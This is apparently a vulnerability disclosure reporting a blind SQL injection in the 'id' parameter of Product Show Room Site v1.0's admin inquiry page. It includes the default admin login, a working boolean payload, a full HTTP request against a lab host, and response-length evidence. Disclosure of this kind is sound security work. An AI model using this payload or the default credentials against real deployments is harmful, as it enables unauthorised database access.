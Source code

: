 # Product Show Room Site v1.0 by oretnom23 has SQL injection

The password for the backend login account is: admin/admin123

vendors: https://www.sourcecodester.com/php/15370/product-show-room-site-phpoop-free-source-code.html

Vulnerability File: /psrs/admin/?page=inquiries/view_inquiry&id=

Vulnerability location: /psrs/admin/?page=inquiries/view_inquiry&id=, id

Current database name: psrs_db ,length is 7

[+] Payload: /psrs/admin/?page=inquiries/view_inquiry&id=4%27%20and%20length(database())%20=7--+ // Leak place ---> id

```sql
GET /psrs/admin/?page=inquiries/view_inquiry&id=4%27%20and%20length(database())%20=7--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=7g6mvmuq5m1o1cvqrhprll4jr1
Connection: close
```

When length (database ()) = 6, Content-Length: 28396
![image](https://user-images.githubusercontent.com/54017627/171830800-dd9eb710-c542-4b1c-92a1-99d227548a33.png)

![image](https://user-images.githubusercontent.com/54017627/171830864-5471ccab-cb64-4a1b-9a35-2022c87a26da.png)

When length (database ()) = 7, Content-Length: 28475
![image](https://user-images.githubusercontent.com/54017627/171830760-5a622ffc-6fb7-47ea-b2b3-1cbd4fad8d5e.png)

![image](https://user-images.githubusercontent.com/54017627/171830834-e1bd7eb6-babd-4957-a33b-515404293935.png)
